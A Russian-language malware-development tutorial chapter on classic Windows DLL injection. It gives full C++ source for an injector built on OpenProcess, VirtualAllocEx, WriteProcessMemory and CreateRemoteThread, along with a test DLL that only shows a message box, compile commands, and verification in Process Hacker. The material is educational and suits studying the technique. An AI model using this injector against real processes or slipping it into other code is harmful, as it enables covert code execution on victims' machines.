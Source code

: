 \newpage
\subsection{5. классическая инъекция DLL в процесс. Простое вредоносное ПО на C++.}

﷽

![DLL injection](./images/7/2021-09-20_15-01.png){width=400px}    

В этом разделе мы обсудим классическую технику инъекции DLL с использованием API отладки.   

О классической инъекции кода я писал в предыдущем разделе.   

Сначала давайте подготовим нашу DLL.       

Существует небольшая разница между написанием кода на C для `exe` и `DLL`. Основное отличие заключается в том, как вызывается код в модуле или программе. В случае с `exe` должна быть функция `main`, которая вызывается загрузчиком ОС после завершения всех этапов инициализации нового процесса. В этот момент программа начинает выполнение после завершения работы загрузчика ОС.    

С другой стороны, если программа работает как динамическая библиотека (`DLL`), процесс несколько иной. Загрузчик уже создал процесс в памяти, и по некоторым причинам этому процессу может понадобиться загрузить вашу DLL (или любую другую DLL). Это может быть связано с тем, что DLL реализует необходимые функции.   

Таким образом, *exe требует наличия функции main, а DLL требует функции DLLMain*.   
В основном, это самое простое различие.    

Для простоты создадим DLL, которая просто выводит всплывающее сообщение:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Она состоит только из `DllMain`, которая является основной функцией библиотеки DLL. В ней не объявлены экспортируемые функции, что обычно делают легитимные DLL. Код `DllMain` выполняется сразу после загрузки DLL в память процесса.

Это важно в контексте DLL-инъекции, так как мы ищем самый простой способ выполнить код в контексте другого процесса. Именно поэтому большинство вредоносных DLL, которые внедряются в процессы, содержат основную вредоносную логику в `DllMain`. Существуют способы заставить процесс выполнить экспортируемую функцию, но написание кода в `DllMain` обычно является самым простым решением для выполнения кода.

При выполнении в инъектированном процессе должно появиться наше сообщение: "Meow from evil.dll!", что подтвердит успешность инъекции. Теперь мы можем скомпилировать DLL (на машине атакующего):

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](./images/7/2021-09-20_17-01.png){width=400px}    

Затем помещаем DLL в выбранную директорию (на машине жертвы):    
![put DLL](./images/7/2021-09-20_17-09.png){width=400px}

Теперь нам нужен код, который внедрит эту библиотеку в выбранный процесс.

В нашем случае мы говорим о классической DLL-инъекции. Мы выделяем пустой буфер размером не менее длины пути к нашей DLL на диске, а затем "копируем" путь в этот буфер.


```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Как видите, это довольно просто. Это похоже на инъекцию кода, рассмотренную ранее. Единственное отличие в том, что мы добавляем путь к нашей DLL с диска **(1)**, а перед окончательной инъекцией и запуском DLL нам нужен адрес памяти `LoadLibraryA`, так как именно этот вызов API мы будем выполнять в контексте процесса жертвы для загрузки DLL **(2)**:    

![LoadLibraryA](./images/7/2021-09-20_18-11.png){width=400px}

Теперь, когда мы разобрались с кодом инжектора, мы можем его протестировать.
Скомпилируем его:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](./images/7/2021-09-20_18-20.png){width=400px}

Сначала запустим `calc.exe`, а затем выполним нашу программу:

![run injector](./images/7/2021-09-20_18-25.png){width=400px}

Чтобы проверить, действительно ли наша DLL была внедрена в процесс `calc.exe`, можно использовать Process Hacker.

![Process Hacker](./images/7/2021-09-22_09-03.png){width=400px}

В другом разделе памяти можно увидеть:

![Process Hacker 2](./images/7/2021-09-22_09-23.png){width=400px}

Похоже, наша простая логика инъекции сработала! Это самый простой способ внедрения DLL в другой процесс, но во многих случаях он оказывается достаточным и очень полезным.

При желании можно также добавить обфускацию вызовов функций, что будет рассмотрено в следующих разделах.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)    

[исходный код на Github](https://github.com/cocomelonc/2021-09-24-injection-2)

В будущих разделах я попытаюсь разобраться с более продвинутыми методами внедрения кода.